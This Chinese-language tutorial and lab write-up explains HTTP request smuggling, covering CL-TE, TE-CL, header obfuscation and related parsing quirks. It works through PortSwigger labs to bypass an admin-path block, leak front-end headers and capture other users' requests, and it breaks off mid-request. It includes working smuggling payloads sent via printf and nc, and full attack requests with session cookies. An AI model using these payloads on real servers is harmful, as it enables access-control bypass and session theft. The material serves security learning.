






[toc]


# TimeLine

-   2004年，`@Amit Klein` 提出 [HTTP Response Splitting](https://dl.packetstormsecurity.net/papers/general/whitepaper_httpresponse.pdf) 技术，雏形
-   2005年，`@Watchfire` 首次提出 [HTTP Request Smuggling](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf)
-   2016 年 Defcon 24 ，`@regilero` 提出了 [Hiding Wookiees In Http](https://media.defcon.org/DEF CON 24/DEF CON 24 presentations/DEF CON 24 - Regilero-Hiding-Wookiees-In-Http.pdf)，进一步揭示了 HTTP Smuggling 这种攻击方式。
-   2019 年 Defcon 27， `@James Kettle` 提出了 [HTTP Desync Attacks: Smashing into the Cell Next Door](https://media.defcon.org/DEF CON 27/DEF CON 27 presentations/DEFCON-27-albinowax-HTTP-Desync-Attacks.pdf)，讲解了如何用 HTTP Smuggling 技术挖掘到了 Paypal 的漏洞。

参考`@regilero`博客：https://regilero.github.io/tag/Smuggling/

# HTTP Connection

在`HTTP1.0`之前的协议设计中，客户端每进行一次HTTP请求，就需要同服务器建立一个TCP链接，导致服务器负载增大

在`HTTP1.1`中，增加了`Keep-Alive`和`Pipeline`这两个特性。

## Keep-Alive

根据`RFC7230`在 `HTTP/1.1`中默认使用`Keep-Alive`，从而允许在单个连接上承载多个请求和响应。

所谓`Keep-Alive`就是在请求头中加：`Connection: Keep-Alive`，告诉服务器，接收完这次HTTP请求后，不要关闭TCP链接，后面对相同目标服务器的HTTP请求，重用这一个TCP链接，有些请求会带`Connection: close`，通信完成后会关闭TCP链接

## Pipeline

在上面的`Keep-Alive`之后出现了`Pipeline`，也就是客户可以一直发请求，服务端接收到后存放到队列中处理。以下是是否使用`Pipeline`的对比：


# Message Body

RFC：https://tools.ietf.org/html/rfc7230#section-3.3

## Transfer-Encoding

>   Transfer-Encoding 类似于 MIME 的 Content-Transfer-Encoding 字段，旨在通过 7 位传输服务实现二进制数据的安全传输。 然而，安全传输对 8bit-clean 传输协议有不同的关注点。 在 HTTP 的情况下，Transfer-Encoding 的主要目的是准确界定动态生成的有效负载，并将仅用于传输效率或安全性的有效负载编码与作为所选资源特征的有效负载编码区分开来。

MDN列举的几个属性，这里着重关注chunked：

```http
Transfer-Encoding: chunked
Transfer-Encoding: compress
Transfer-Encoding: deflate
Transfer-Encoding: gzip
```

可以bypassWAF，见：[利用分块传输吊打所有WAF](https://www.freebuf.com/articles/web/194351.html)

分块传输的规范：[RFC7230](https://www.rfc-editor.org/rfc/rfc7230#section-4.1)

> The chunked transfer coding wraps the payload body in order to transfer it as a series of chunks, each with its own size indicator, followed by an OPTIONAL trailer containing header fields.  Chunked enables content streams of unknown size to be transferred as a sequence of length-delimited buffers, which enables the sender to retain connection persistence and the recipient to know when it has received the entire message.
>
>   分块传输编码将有效负载主体包装起来，以便将其作为一系列块传输，每个块都有自己的大小指示符，后跟一个包含标题字段的可选尾部。 分块使未知大小的内容流能够作为一系列以长度分隔的缓冲区进行传输，这使发送者能够保持连接持久性，而接收者能够知道它何时收到了整个消息。

```
     chunked-body   = *chunk
                      last-chunk
                      trailer-part
                      CRLF

     chunk          = chunk-size [ chunk-ext ] CRLF
                      chunk-data CRLF
     chunk-size     = 1*HEXDIG
     last-chunk     = 1*("0") [ chunk-ext ] CRLF

     chunk-data     = 1*OCTET ; a sequence of chunk-size octets
```

>   chunk-size字段是一串十六进制数字，以八位字节表示块数据的大小。 当接收到一个块大小为零的块时，分块传输编码就完成了，可能后面跟着一个trailer，最后由一个空行终止。

等等等等，，看文档去吧。。

如果想发送：`Wikipedia in\r\n\r\nchunks.`

```http
POSTT /xxx HTTP/1.1
Host: xxx
Content-Type: text/plain 
Transfer-Encoding: chunked

4\r\n
Wiki\r\n
5\r\n
pedia\r\n
e\r\n
 in\r\n\r\nchunks.\r\n
0\r\n
\r\n
```

>   第一个4表示接下来会有4字节数据(Wiki)，然后按照 RFC 文档标准，字母 Wiki 部分后面需要跟`\r\n`表示 chunk-data 部分，数字 4 后面需要跟`\r\n`表示 chunk-size 部分，注意这里的数字是16进制，比如见第三部分的e；最后的0\\r\\n\\r\\n表示chunk部分结束

# Background

>   为了提升用户的浏览速度，提高使用体验，减轻服务器的负担，很多网站都用上了CDN加速服务，最简单的加速服务，就是在源站的前面加上一个具有缓存功能的反向代理服务器，用户在请求某些静态资源时，直接从代理服务器中就可以获取到，不用再从源站所在服务器获取。这就有了一个很典型的拓扑结构。
>
>   

引图：


>   一般来说，反向代理服务器与后端的源站服务器之间，会重用TCP链接。这也很容易理解，用户的分布范围是十分广泛，建立连接的时间也是不确定的，这样TCP链接就很难重用，而代理服务器与后端的源站服务器的IP地址是相对固定，不同用户的请求通过代理服务器与源站服务器建立链接，这两者之间的TCP链接进行重用，也就顺理成章了。
>
>   当我们向代理服务器发送一个比较模糊的HTTP请求时，由于两者服务器的实现方式不同，可能代理服务器认为这是一个HTTP请求，然后将其转发给了后端的源站服务器，但源站服务器经过解析处理后，只认为其中的一部分为正常请求，剩下的那一部分，就算是走私的请求，当该部分对正常用户的请求造成了影响之后，就实现了HTTP走私攻击。

也就是两者的解析差异

# Attack Method

## 优先级

`Content-Length` 与 `Transfer-Encoding` 均可以作为 POST 数据传输时处理 body 的方式，为了方便：

>   Front 代表的是反向代理等典型的前端服务器，Backend 代表的是处理请求的后端业务服务器

-   CL-TE 代表 Front 以 `Content-Length` 优先处理，Backend 以 `Transfer-Encoding` 优先处理
-   TE-CL 代表 Front 以 `Transfer-Encoding` 优先处理，Backend 以 `Content-Length` 优先处理

上述情况下，后端服务器为一台时的架构类似：

```
                      User            Front           Backend
                      |               |               |
                      |------A------->|               | 
                      |               |-------A------>| 
                      |               |<-A(200)-------|
                      |<-A(200)-------|               |
```

其实CL与TE是在RFC中规定了优先级的，TE优先级高于CL。但还是可以通过一些方法绕过。

eg：

```python
printf 
'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-length:56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

正常情况下应该是3个请求

```http
GET / HTTP/1.1
Host:localhost
Content-length:56
Transfer-Encoding: chunked
Dummy:Header

0

```

```http
GET /tmp HTTP/1.1
Host:localhost
Dummy:Header

```

```http
GET /tests HTTP/1.1
Host:localhost
Dummy:Header

```

如果存在TE&CL优先级的话会被解析为两个请求：

```http
GET / HTTP/1.1[CRLF]
Host:localhost[CRLF]
Content-length:56[CRLF]
Transfer-Encoding: chunked[CRLF] (ignored and removed, hopefully)
Dummy:Header[CRLF]
[CRLF]
0[CRLF]  (start of 56 bytes of body)
[CRLF]
GET /tmp HTTP/1.1[CRLF]
Host:localhost[CRLF]
Dummy:Header[CRLF] (end of 56 bytes of body, not parsed)
```

```http
GET /tests HTTP/1.1
Host:localhost
Dummy:Header

```

## Bad chunked Transimission

[RFC7230 3.3.3](https://www.rfc-editor.org/rfc/rfc7230#section-3.3.3)：

>   如果请求中存在 Transfer-Encoding 头字段，并且分块传输编码不是最终编码，则无法可靠地确定消息体长度； 服务器必须响应 400（Bad Request）状态码，然后关闭连接。

也就是说收到`Transfer-Encoding: chunked, zorg`的时候，要返回400

但是有很多绕过：

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked

Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

GET / HTTP/1.1
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```

## NULL in header

在一些用C写的中间件会容易产生这个问题，比如：

```http
# 2 responses instead of 3 (2nd query is wipped out by pound, used as a body)
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-\0dummy: foo\r\n'\
'length: 56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080

```

有些中间件处理以上的请求时，当遇到`\0`的时候会继续换行读取，这样也会导致产生解析差异。

## CRLF

RFC3.5：

>   尽管起始行和标题字段的行终止符是序列 CRLF，但接收者可以将单个 LF 识别为行终止符并忽略任何前面的 CR。

也就是说可以直接使用LF作为EOL，在NodeJs<5.6.0中，是这样处理的：

```
[CR] + ? == [CR][LF]		//true
```

假设我们有一个正常解析 CRLF 的 Front 服务器，后端是有该漏洞的 Node.js 服务，我们可以发送以下请求：

```http
GET / HTTP/1.1\r\n
Host:localhost\r\n
Dummy: Header\rZTransfer-Encoding: chunked\r\n
Content-length: 52\r\n
\r\n
0\r\n
\r\n
GET /tmp HTTP/1.1\r\n
Host:localhost\r\n
Dummy:Header\r\n
```

Front服务器会认为`Dummy: Header\rZTransfer-Encoding: chunked\r\n`是一个请求头，而后端NodeJs服务器会认为`\rZ`是一个换行，按照TE>CL，会认为这是两个请求。

## Size Issue

有些中间件在解析快大小的时候会对块长度进行长度截断，比如：``0000000000000000000000000000042`只取`00000000000000000`

```c
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0000000000000000000000000000042\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

## Http version

主要是http0.9，先看下其他版本的例子：

HTTPv1.1:

```http
GET /foo HTTP/1.1\r\n
Host: example.com\r\n
```

HTTPv1.0:

```http
GET /foo HTTP/1.0\r\n
\r\n
```

HTTPv0.9:

```http
GET /foo\r\n
```

HTTPv0.9中的请求包与响应包中是没有headers的概念的，body部分就是`text stream`。

例子：


上图的HTTP/0.9并不是v0.9的标准格式，一些中间件已经不能直接解析标准格式了，但是还可能解析上面的格式，于是：


上面两图是大致攻击流程，chewy2.jpg 当中的 24-33664 字节有着一个完整的 HTTP 响应报文，当 Golang 在处理 HTTP/0.9 的时候，获取响应报文的 24-33664 个字节，也就是获取了我们存放在图片当中的 HTTP 报文，然后返回给 Golang ，Golang 对于 HTTP/0.9 再进行标准化去头的处理，这样响应看起来就是一个新的响应了。


## Has a CL in GET

在 GET 请求中使用了 body ，并以 Content-Length 指出了 body 的长度

RFC7230的content-length部分：

>   例如，通常在 POST 请求中发送 Content-Length 标头字段，即使该值为 0（表示有效负载正文为空）。 当请求消息不包含有效负载主体并且方法语义不预期这样的主体时，用户代理不应发送 Content-Length 标头字段。

在最新的4.3.1中：

>    GET 请求消息中的有效负载没有定义的语义； 在 GET 请求上发送有效负载正文可能会导致某些现有实现拒绝该请求。

但是对于有body字段，并且Content-Length指出其长度的请求，RFC中并没有说服务器改如何处理，所以这些中间件并没有标准的处理流程，会有不同的解析差异，导致http请求走私攻击。

比如：

```http
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 41\r\n
\r\n
GET /secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

Front处理的时候会当做一个完整的请求给Backend，Backend在处理这个请求的时候会当做两个请求。

```http
GET /secret HTTP/1.1\r\n		-->		"GET /secret HTTP/1.1" 一共20个字符，加上CRLF一共22个字符
Host: example.com\r\n			-->		"Host: example.com" 一共17个字符，加上CRLF一共19个字符
```

19+22=41

## Two Identical Fields - CL

RFC7230 3.3.2中：

>   如果接收到的消息具有多个 Content-Length 标头字段，其字段值由相同的十进制值组成，或单个 Content-Length 标头字段的字段值包含相同十进制值的列表（例如，“Content-Length : 42, 42”)，表示重复的 Content-Length 标头字段已由上游消息处理器生成或组合，那么接收者必须要么拒绝消息为无效，要么用单个有效的 Content-Length 替换重复的字段值 在确定消息正文长度或转发消息之前包含该十进制值的字段。

3.3.3中：

>   如果接收到的消息没有 Transfer-Encoding 并且具有多个具有不同字段值的 Content-Length 标头字段或具有无效值的单个 Content-Length 标头字段，则消息帧无效并且接收者必须将其视为 不可恢复的错误。 如果这是一个请求消息，服务器必须以 400（错误请求）状态码响应，然后关闭连接。

例子：

```http
GET /suzann.html HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 0\r\n
Content-Length: 46\r\n
\r\n
GET /walter.html HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

假设：如果Front以第二个CL作为解析标准，并且Backend以第一个CL作为解析标准，这样就在http请求中注入了一个http请求。

## Optional WhiteSpace

RFC7230中：

>   3.2. 标题字段
>
>   每个标头字段由不区分大小写的字段名称后跟冒号 (":")、可选的前导空格、字段值和可选的尾随空格组成。
>
>   header-field = field-name “:” OWS 字段值 OWS

```c
 field-name     = token
 field-value    = *( field-content / obs-fold )
 field-content  = field-vchar [ 1*( SP / HTAB ) field-vchar ]
 field-vchar    = VCHAR / obs-text

 obs-fold       = CRLF 1*( SP / HTAB )
                ; obsolete line folding
                ; see Section 3.2.4
```

字段后面应该紧跟`:`冒号，然后是 `OWS(Optional WhiteSpace)` 可选的空格，然后再是字段值，最后是 OWS 可选空格。

如果中间件对于上面的实现没有严格遵守RFC的话，也可能会造成http请求走私。

经典的例子是CVE-2019-16869，是Netty中间件存在的http Smuggling漏洞。

关键代码：

```java
for (nameEnd = nameStart; nameEnd < length; nameEnd ++) {
  char ch = sb.charAt(nameEnd);
  if (ch == ':' || Character.isWhitespace(ch)) {
    break;
  }
}
```

这里将空格与冒号同样处理了，没有抛出错误或其他工作，与RFC不一致，会产生解析差异。

`@Bi3g0`构建了比较清晰的漏洞原理图：


其中的ELB为Front服务器，Netty为Backend服务器，发送如下请求：

```http
POST /getusers HTTP/1.1
Host: www.backend.com
Content-Length: 64
Transfer-Encoding : chunked

0

GET /hacker HTTP/1.1
Host: www.hacker.com
hacker: hacker
```

ELB服务器会将Transfer-Encoding字段丢弃，因为其不符合RFC规范，继续使用CL，将上述扔给Netty，Netty优先TE解析，也就是说会当做两个请求，故而造成http请求走私，

## CL-TE

接下来的几个实验都是使用`@portswigger`提供的Lab ：[HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)

开始前记得把burp的CL更新关掉


[Lab: HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。 前端服务器拒绝不使用 GET 或 POST 方法的请求。
>
>   解决实验室，偷偷向后端服务器发送一个请求，让后端服务器处理的下一个请求出现使用GPOST方法。

```http
POST / HTTP/1.1
Host: 0a5f0013044e0a8dc0c33f2c00850080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Transfer-Encoding: chunked

0

G
```




这样第二次就构造出GPOST的http 方法了：

```
                      User            Front           Backend
                      |               |               |
                      |--A(1A+1/2B)-->|               | 
                      |               |--A(1A+1/2B)-->| 
                      |               |<-A(200)-------|
                      |               |            [1/2B]
                      |<-A(200)-------|            [1/2B]
                      |--C----------->|            [1/2B]
                      |               |--C----------->| * ending B *
                      |               |<--B(200)------|
                      |<--B(200)------|               |
```

-   1A + 1/2B 表示的是一个完整的请求 A + 一个不完整的请求 B
-   A(X) : 表示 X 请求隐藏在 A 请求的 body 当中
-   ending B: 请求 C 第一行被拼接到了不完整的请求 B 的 header 头当中，请求 C 其他所有的请求头都被添加到了请求 B 当中，这样请求 C 就相当于消失了，请求 B 会带着请求 C 的请求头去请求后段服务器，包括 Cookie 字段或者其他什么认证字段

整个过程：首先发送请求，Front服务器优先CL处理，那么会认为

```
0\r\n
\r\n
G
```

为一个完整请求，到Backend服务器时，优先TE处理，会认为：

```http
POST / HTTP/1.1
Host: 0a5f0013044e0a8dc0c33f2c00850080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Transfer-Encoding: chunked

0
```

是一个完整请求，而认为`G`是一个不完整的请求，造成了1/2B请求，之后与后面的C请求构成一个完整的请求，而造成`GPOST`请求

## TE-CL

还是使用Lab：[Lab: HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

>   本实验涉及前端和后端服务器，后端服务器不支持分块编码。 前端服务器拒绝不使用 GET 或 POST 方法的请求。
>
>   解决实验室，偷偷向后端服务器发送一个请求，让后端服务器处理的下一个请求出现使用GPOST方法。

```http
POST / HTTP/1.1
Host: 0a7a00370308efe7c0a4cbb400f500a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0


//这里需要注意，有两个CRLF：
0\r\n
\r\n
```


流程与CL-TE相同，Front服务器处理的时候会TE优先处理，认为是一个请求，Backend服务器处理的时候会认为上面是两个请求（CL优先处理），造成GPOST请求。

## Two Identical Fields - TE

LAB：[Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

>   本实验涉及前端和后端服务器，这两个服务器以不同的方式处理重复的 HTTP 请求标头。 前端服务器拒绝不使用 GET 或 POST 方法的请求。
>
>   解决实验室，偷偷向后端服务器发送一个请求，让后端服务器处理的下一个请求出现使用GPOST方法。

此场景是一个TE-TE场景，比如说在处理两个 TE 字段，如果取第二个 TE 字段作为解析标准，而第二个字段值非正常或者解析出错，就可能会忽略掉 TE 字段，而使用 CL 字段进行解析，之后成为CL-TE。

```http
POST / HTTP/1.1
Host: 0abb002603fd1939c0ecec4600b8000a.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
GPOST / HTTP/1.1

0

//这里和上面的一样，0后面有两个CRLF
```

发送两次如上请求：


Front服务器处理时对第一个TE处理，认为是正常请求，给Backend服务器，Backend以第二个TE处理，非正常，使用CL处理，之后被拆分为两个请求。

# Attack Surface

上面是几种常见的攻击方式，下面来演示这些攻击方式可以用来干嘛

## Bypass Front-end Security Controls

两个lab，一个是CL-TE，一个是TE-CL，达到的目的一样：

-   [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)
-   [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。 /admin 有一个管理面板，但前端服务器阻止访问它。
>
>   要解决实验室问题，请向访问管理面板并删除用户 carlos 的后端服务器发送请求。

这个lab是使用admin删除carlos用户。

直接访问`/admin`的话会显示：`"Path /admin is blocked"`

这里我选择的是CL-TE，发送如下请求：

```http
POST / HTTP/1.1
Host: 0a8600f1034842adc0f77d2e00360034.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=FSDE0lrTI1tuBNQJt4RSqapGBCHSKent
Content-Length: 30
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1


```

发送两次后：


添加host头，在发送几次：

```http
POST / HTTP/1.1
Host: 0a8600f1034842adc0f77d2e00360034.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=FSDE0lrTI1tuBNQJt4RSqapGBCHSKent
Content-Length: 45
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost

```


得到了删除用户的api，直接：

```http
POST / HTTP/1.1
Host: 0a8600f1034842adc0f77d2e00360034.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=FSDE0lrTI1tuBNQJt4RSqapGBCHSKent
Content-Length: 63
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost


```

即可，

需要注意的就是注意控制CL长度

## Revealing Front-end Request Rewriting

有的Front服务器接收到请求后并不会直接给Backend服务器，而是会加一些头部，比如：

-   描述TLS连接所使用的协议和密码
-   包含用户IP地址的XFF头
-   用户的会话令牌ID

意思就是，如果不能知道Front服务器添加了哪些字段，即使走私过去了请求也并不能正确执行，`PortSwigger`提供了获取这些字段的方法，主要是三步：

1.  找一个能够将请求参数的值输出到响应中的POST请求
2.  把该POST请求中，找到的这个特殊的参数放在消息的最后面
3.  然后走私这一个请求，然后直接发送一个普通的请求，前端服务器对这个请求重写的一些字段就会显示出来。

Lab：[Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。
>
>   /admin 有一个管理面板，但只有 IP 地址为 127.0.0.1 的人才能访问它。 前端服务器将 HTTP 标头添加到包含其 IP 地址的传入请求。 它类似于 X-Forwarded-For 标头，但名称不同。
>
>   为了解决实验室问题，向后端服务器发送一个请求，该请求会显示前端服务器添加的标头。 然后向后端服务器发送一个包含添加的标头的请求，访问管理面板并删除用户 carlos。

这个lab是CL-TE场景，先简单尝试下提示需要请求里包含来源，


利用搜索回显把请求头泄露出来：


可以看到请求头：

```http
X-JVXlnc-Ip: 218.199.185.111
```

可以看到删除用户的API了：


跟上面的一样，成功删除：


>   注意：如果你不添加 Content-Type 字段的话，需要在最后添加一个`\r\n`，否则会返回 400

## Capturing other users’ requests

既然可以拿到中间件的请求，那么也可以拿到其他用户的请求，cookie等。

Lab：[Lab: Exploiting HTTP request smuggling to capture other users’ requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。
>
>   为了解决实验室问题，将请求偷运到后端服务器，导致下一个用户的请求存储在应用程序中。 然后检索下一个用户的请求并使用受害者用户的 cookie 访问他们的帐户。

找到个发评论的地方进行HTTP请求走私：

```http
POST / HTTP/1.1
Host: 0a4700a603f0e3c0c0bc8d6c0007009b.web-security-academy.net
Cookie: session=TJoTuRZfJ7lo34B90Qx38aS4mnL19b87
Content-Type: application/x-www-form-urlencoded
Content-Length: 270
